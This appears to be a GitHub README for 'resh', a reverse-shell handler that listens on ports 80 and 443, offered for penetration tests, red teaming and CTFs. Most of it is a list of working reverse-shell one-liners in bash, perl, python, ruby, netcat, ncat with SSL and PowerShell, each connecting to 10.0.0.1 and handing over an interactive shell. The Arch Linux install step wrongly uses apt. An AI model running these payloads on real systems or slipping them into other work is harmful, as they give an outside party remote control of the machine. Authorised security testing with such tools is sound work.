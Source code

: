 # resh
### REverse Shell Handler
A simple and minimalistic post-exploitation tool to handle and interact with reverse shells. The server listens on two ports, default 80 and 443. One for normal non-encrypted and one for SSL encrypted shells. This is to facilitate penetration tests, red teaming exercises or CTFs and handle multiple reverse shells.

### Installing
#### Dependencies
##### Debian/Ubuntu/Kali
```
$ apt install libssl-dev libreadline-dev
```
##### Arch Linux/Manjaro
```
$ apt install openssl readline
```
#### Downloading and compiling
```
$ git clone https://github.com/jlhk/resh
$ cd resh
$ make cert # Generating SSL certificates
$ make      # Compiling
```
### Reverse Shells
```
# Bash
bash -i >& /dev/tcp/10.0.0.1/80 0>&1

# Perl
perl -e 'use Socket;$i="10.0.0.1";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

# Netcat
nc -e /bin/sh 10.0.0.1 80

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 80 >/tmp/f

# SSL
ncat --ssl -e /bin/sh 10.0.0.1 443

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|ncat --ssl 10.0.0.1 443 >/tmp/f

# Powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
### Usage
```
usage: ./resh [-hv] [-l port] [-L port] [-i] [-c cert] [-k key]

-l port         Listen port for no encryption. Default 80
-L port         Listen port for SSL encrypted traffic. Default 443
-k              SSL private key to use. Default ./certs/srv.key
-c              SSL cert to use. Default ./certs/srv.pem

Example:
        ./resh -c certs/srv.pem -k certs/srv.key
```
